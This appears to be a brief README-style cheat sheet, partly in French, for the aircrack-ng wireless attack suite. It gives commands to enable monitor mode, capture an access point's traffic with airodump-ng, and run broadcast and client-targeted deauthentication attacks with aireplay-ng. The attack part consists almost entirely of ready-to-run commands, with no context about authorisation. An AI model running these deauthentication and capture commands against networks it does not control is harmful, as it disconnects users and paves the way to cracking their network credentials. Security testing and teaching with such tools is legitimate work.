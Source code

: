 # aicrack-ng

Enabling monitor mode

Before capturing any traffic, it is necessary to enable the monitoring mode on the 802.11 interface wlan0.

This is typically done using iwconfig

$ iface = wlan0
$ sudo ifconfig $iface down
$ sudo iwconfig $iface mode monitor
$ sudo ifconfig $iface up

Where wlan0 is the name of your wireless interface supporting the monitor mode. From this point,
the interface wlan0 is in monitor mode and ready to capture and inject traffic.
If you are encountering errors or a strange behavior with your monitoring interface, you can try
"unblocking" the interface with the following commands:

$ nmcli nm wifi off
$ sudo rfkill unblock all

## capture dans un fichier :

$ airodump-ng --essid <nom AP> -c <channel> -w capture-file wlan1
$ airodump-ng --bssid <mac AP> -c <channel> -w capture-file wlan1

## deauth (broadcast):

sudo aireplay-ng --deauth 30 -a <mac AP> wlan1

## deauth ciblé:

sudo aireplay-ng --deauth 30 -a <mac AP> -c <mac Client> wlan1

